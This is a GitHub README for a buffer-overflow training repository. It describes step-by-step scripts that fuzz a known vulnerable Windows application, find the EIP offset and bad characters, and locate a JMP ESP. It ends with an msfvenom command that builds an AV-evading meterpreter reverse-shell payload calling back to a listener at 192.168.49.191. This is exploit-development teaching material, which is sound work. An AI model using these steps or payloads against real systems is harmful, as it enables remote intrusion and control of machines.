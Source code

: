 # Classic-Buffer-Overflows<br/>

Python scripts needed to perform a buffer overflow from a previously known vulnerable application or proof of concept. There will also be a small description instructing how to use the files.<br/>
For this particular application I also use WinDbg to build out from the PoC to getting a meterpreter shell. <br/>
The naming covention I am using is as follows<br/>
SX[ShortDescription].py<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where SX is the step number, followed by a short description.<br/>
# \*\~\*\~\*\~\*\~Legal Disclaimer\~\*\~\*\~\*\~\*
These scripts are meant to be modified with the intent of hardcoding things like the ip and port number but that's just personal preference.<br/>
Feel free to do whatever you want to do with these scripts within the confines of the law.<br/>
You are solely responsible for your actions.<br/>
# \*\~\*\~\*\~\*\~\*\~\*\~\*\~\*\~\*\~\*Legal Disclaimer\*\~\*\~\*\~\*\~\*\~\*\~\*\~\*\~\*\~\*

## S1PoCFuzz.py
This is a fuzzer that sends an arbitrary amount of data to a web based application that causes a crash.<br/>
Usage: ./S1PoCFuzz.py {IP} {Port} {Data} <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where data is an interger that represents the number of bytes that cause a crash.<br/>
<br/>
In our WinDbg debugger we see that we have overwriten every register except the ESP using the r command. <br/>
We can see what the ESP register points to by using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dds esp<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S1Fuzz.png)<br/>

## S2FindOffset.py
This script along with our debugger will help us find offset that writes to the EIP.<br/>
First we generate an array of characters using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom-pattern_create l- {data}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where data represents the number of bytes that caused the crash.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Next we make sure to send the character array to the vulnerable application.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This is shown on line 16 of this script.<br/>
Usage ./S2FindOffset.py {IP} {Port}<br/>
<br/>
From our debugger, we see that the EIP is overwritten by 33794332
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S2EIP.png)<br/>
Next we use find the offset that will overwrite the EIP by using the following command<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom-pattern_offset -l {data} -q {eip}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; where -l {data} is the amount of data that caused the application to crash and -q {eip} is the area we want to overwrite.
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S2Offset.png)<br/>
## S3ChangeEIP.py
Now that we know where our EIP is, we want to verify it and find a suitable location for our reverse shell.<br/>
usage ./S3ChangeEIP.py {IP} {port} {offset}<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Where offset is the interger that obtained from the msfvenom-find_offset command<br/>
<br/>
In our WinDbg debugger we see that we have overwriten ESP with 42424242, or the hex representation of BBBB, using the r command. <br/>
We can see what the ESP register points to with the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dds esp -14 L10<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S3EIPOverwrite.png)<br/>
This command shows us that our ESP is 041dee6c.<br/>
The lines before our ESP show us that there are some 41s and some 42s.<br/>
These 42s represent our EIP, but more importantly we see that our ESP points to 44s.<br/>
This is where our shellcode will go.<br/>
By changing the value of L 10 to something higher we can see more bytes after our ESP. <br/>
It is good practice to navigate to each register to see how the application handles data. <br/>
This can be important because some applications may not have enough memory for our shellcode.<br/>
I will cover a few strategies later to overcome this limitation.<br/>
## S4BadChars.py
Before we can generate our shellcode, we have to find what characters cause our attack to fail.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Usage S4BadChars.py {IP} {Port}<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4BadChars.png)<br/>
using the command dds esp in WinDBg we can see the character array we sent to the application.<br/>
The nullbyte character (\x00) is omitted because its very likely to cause our attack to fail.<br/>
We are looking for characters that are out of place from 01 to ff.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;An out of place character may look like 01 02 03 04 08 06 07 08<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;In this case we would return to our python script remove 05 and make a note of it.<br/>
<br/>
We are also looking for characters that truncate the character array.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Truncation looks like 97 98 99 9a 9b 9c 00 ff f3 5a<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Where 9d would need to be removed because 9c is the last character from our array.<br/>
<br/>
Fortunately, this application does not have bad characters other than 00.<br/>
However, it is very important to note what these bad characters are.<br/>
We repeat this until we verify each character in our array.<br/>
## Generating our Shellcode
Before we can generate our shellcode, we need to find a module that contains a jump instruction.<br/>
This jump instruction will help us jump to our shellcode.<br/>
To do this we will use a program called process hacker and find our vulnerable application.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4Modules.png)<br/>
The ideal module does not have any protection, meaning that the ASLR and CF Guard fields are blank.<br/>
When we find a potentially suitable module, we go to our debugger and find the address for our jump command.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4JMPESP.png)<br/>
The first command gives us the boundary of the module. This boundary limits our search scope for our jump command.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;lm m vulnapp1<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where lm list the modules and m specifies a pattern that must match our query of vulnapp1.<br/>
The seccond command helps us achieve this.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;s -b 14800000 14816000 0xff 0xe4<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This command searches for ffe4 from 14800000 14816000 displaying the (-b)bytes.<br/>
In this case, since we are jumnping to the ESP we are searching for jmp esp which is ff e4<br/>
But a different application might require a different jump code<br/>
Which are here for your convinience. <br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S4JMPCodes.png)<br/>
Now we can generate out shellcode using the following command:<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.191 LPORT=443 EXITFUNC=thread -f python –e x86/shikata_ga_nai -b "\x00"<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;where we use -p for the platform we are attacking and payload we are using<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;EXITFUNC=thread becuase we dont want to close the vulnerable app when we close the shell<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-e x86/shikata_ga_nai to encode the shellcode to either evade AV or avoid bad characters<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;-b lets you specify what the bad characters are.<br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;This is shown below.<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S5GenerateShellcode.png)<br/>
## S5FinalBoF.py
Now we put everything together into this script and we get our code execution.<br/>
Usage ./S5FinalBoF.py {ip} {port} {offset}<br/>
Next we set up our listener and run this script.<br/>
If everything went well we should have code execution<br/>
Shown below is setting up the listener as well as proof of code execution...<br/>
![alt tag](https://github.com/ZeusBanda/Classic-Buffer-Overflows/blob/main/WinDbg-Images/S6ReverseShell.png)<br/>
